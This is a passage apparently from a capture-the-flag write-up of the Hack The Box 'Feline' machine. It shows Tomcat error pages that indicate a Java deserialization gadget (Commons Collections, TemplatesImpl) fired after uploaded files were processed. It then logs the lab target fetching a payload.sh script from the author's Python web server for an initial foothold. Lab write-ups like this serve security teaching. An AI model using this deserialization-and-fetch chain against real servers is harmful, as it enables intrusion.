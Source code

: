 ```text
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
        ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>

File uploaded successfully!


<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
       ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>
```

Each of the files were uploaded successfully, though they each threw a `HTTP Status 500 – Internal Server Error`, probably after deserializing the "session" it expected.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ python3 -m http.server 9990
Serving HTTP on 0.0.0.0 port 9990 (http://0.0.0.0:9990/) ...
10.10.10.205 - - [13/Dec/2020 15:51:44] "GET /payload.sh HTTP/1.1" 200 -
```
